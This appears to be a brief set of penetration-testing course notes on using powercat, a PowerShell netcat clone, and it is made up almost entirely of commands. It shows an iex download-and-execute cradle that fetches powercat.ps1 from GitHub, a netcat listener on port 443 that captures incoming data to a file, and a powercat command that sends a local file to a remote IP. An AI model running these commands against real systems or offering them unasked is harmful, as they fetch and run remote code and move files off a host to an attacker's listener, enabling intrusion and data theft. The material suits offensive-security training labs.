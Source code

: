 # 1) Load powercat via dot-sourcing
```ps
. .\powercat.ps1
```

# 2) Or load powercat via iex
```ps
iex (New-Object
System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/po
wercat/master/powercat.ps1')
```

# 3) Spawn remote listener
```sh
LPORT=443
sudo nc -lnvp $LPORT > receiving_powercat.ps1
```

# 4) Send file to remote
```ps
powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1
```
